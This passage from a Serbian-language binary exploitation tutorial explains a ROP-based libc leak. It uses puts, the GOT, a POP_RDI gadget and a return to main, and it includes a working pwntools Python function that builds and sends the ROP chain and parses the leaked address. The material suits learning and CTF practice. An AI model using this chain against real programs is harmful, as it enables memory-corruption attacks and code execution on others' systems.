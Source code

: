`PUTS_PLT` je potreban da bi se pozvala **funkcija puts**.\
`MAIN_PLT` je potreban da bi se pozvala **glavna funkcija** ponovo nakon jedne interakcije da bi se **iskoristio** preljev **ponovo** (beskonačne runde iskorišćavanja). **Koristi se na kraju svakog ROP-a da bi se program pozvao ponovo**.\
**POP\_RDI** je potreban da bi se **prosledio** **parametar** pozvanoj funkciji.

U ovom koraku ne morate ništa izvršiti jer će sve pronaći pwntools tokom izvršavanja.

## 3- Pronalaženje libc biblioteke

Sada je vreme da se otkrije koja verzija **libc** biblioteke se koristi. Da bismo to uradili, **procurećemo** **adresu** u memoriji **funkcije** `puts`, a zatim ćemo **tražiti** u kojoj **verziji biblioteke** se nalazi ta verzija puts funkcije na toj adresi.

```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```

Da biste to postigli, najvažnija linija izvršenog koda je:

```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

Ovo će poslati nekoliko bajtova dok nije moguće **prepisati** **RIP**: `OFFSET`.\
Zatim će postaviti **adresu** gedžeta `POP_RDI` tako da će sledeća adresa (`FUNC_GOT`) biti sačuvana u registru **RDI**. To je zato što želimo **pozvati puts** **prosljeđujući** mu **adresu** `PUTS_GOT` jer je adresa funkcije puts u memoriji sačuvana na adresi na koju pokazuje `PUTS_GOT`.\
Nakon toga, pozvaće se `PUTS_PLT` (sa `PUTS_GOT` unutar **RDI**) tako da će puts **pročitati sadržaj** unutar `PUTS_GOT` (**adresa funkcije puts u memoriji**) i će je **ispisati**.\
Na kraju, **ponovo se poziva glavna funkcija** kako bismo ponovo iskoristili prekoračenje.
